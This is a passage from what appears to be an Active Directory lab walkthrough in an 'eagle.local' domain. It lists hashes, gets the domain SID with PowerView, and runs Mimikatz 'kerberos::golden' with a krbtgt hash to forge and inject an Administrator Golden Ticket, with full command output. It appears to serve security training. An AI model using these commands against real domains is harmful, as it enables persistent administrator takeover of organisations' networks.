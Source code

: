```cmd-session
    20  aeb364654402f52deb0b09f7e3fad531
    21  c177101f066186f80a5c3c97069ef845
    22  c177101f066186f80a5c3c97069ef845
    23  2f61531cee8cab3bb561b1bb4699cb9b
    24  bc35f896383f7c4366a5ce5cf3339856
    25  bc35f896383f7c4366a5ce5cf3339856
    26  b554ba9e2ce654832edf7a26cc24b22d
    27  f9daef80f97eead7b10d973f31c9caf4
    28  1cf0b20c5df52489f57e295e51034e97
    29  8c6049c719db31542c759b59bc671b9c
```

<mark style="color:yellow;">2.</mark>\
Use the Get-DomainSID in PowerView to get the SID of the Domain

### Get SID of the domain

```powershell-session
PS C:\Users\bob\Downloads> powershell -exec bypass

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\bob\Downloads> . .\PowerView.ps1
PS C:\Users\bob\Downloads> Get-DomainSID
S-1-5-21-1518138621-4282902758-752445584
```

<mark style="color:yellow;">3.</mark>\
Now, armed with all the required information, we can use `Mimikatz` to create a ticket for the account `Administrator`. The `/ptt` argument makes `Mimikatz` [pass the ticket into the current session](https://adsecurity.org/?page_id=1821#KERBEROSPTT)

### Create the ticket

```cmd-session
C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifetime  : 13/10/2022 06.28.43 ; 13/10/2022 06.36.43 ; 13/10/2022 06.35.43
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

```